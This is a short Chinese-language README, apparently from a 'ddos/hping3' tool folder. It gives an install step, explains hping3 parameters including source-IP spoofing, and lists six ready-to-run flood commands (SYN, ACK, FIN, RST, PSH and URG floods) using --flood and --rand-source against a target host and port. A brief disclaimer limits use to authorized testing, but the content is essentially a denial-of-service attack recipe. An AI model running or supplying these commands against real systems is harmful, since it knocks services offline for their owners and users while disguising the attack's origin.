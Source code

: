 ### 目录
    cd ddos/hping3


### 自动化安装hping3
    sudo python3.8 hping3.py

### 参数
- -S SYN 标志。

- -w 64: TCP 窗口大小设置为 64。

- -p 22: 目标端口。

- --rand-source: 使用伪随机 IP 地址作为源地址（伪装攻击来源）。

- --data 800: 数据负载为 800 字节。



### 🔥 SYN Flood 攻击
    hping3 dstip -p dstport --flood -S -w 64 --rand-source --data 800

### 📡 ACK Flood 攻击
    hping3 dstip -p dstport --flood -A -w 64 --rand-source --data 800

### 🧨 FIN Flood 攻击
    hping3 dstip -p dstport --flood -F -w 64 --rand-source --data 800

### ⚠️ RST Flood 攻击
    hping3 dstip -p dstport --flood -R -w 64 --rand-source --data 800

### 📤 PSH Flood 攻击
    hping3 dstip -p dstport --flood -P -w 64 --rand-source --data 800

### 🚨 URG Flood 攻击
    hping3 dstip -p dstport --flood -U -w 64 --rand-source --data 1400

### 注意事项
- 所有攻击命令 仅限于合法授权的测试环境。
    
- 切勿对公共网络或未授权的设备使用此类命令。
    
- 违反相关法律法规将承担法律责任。


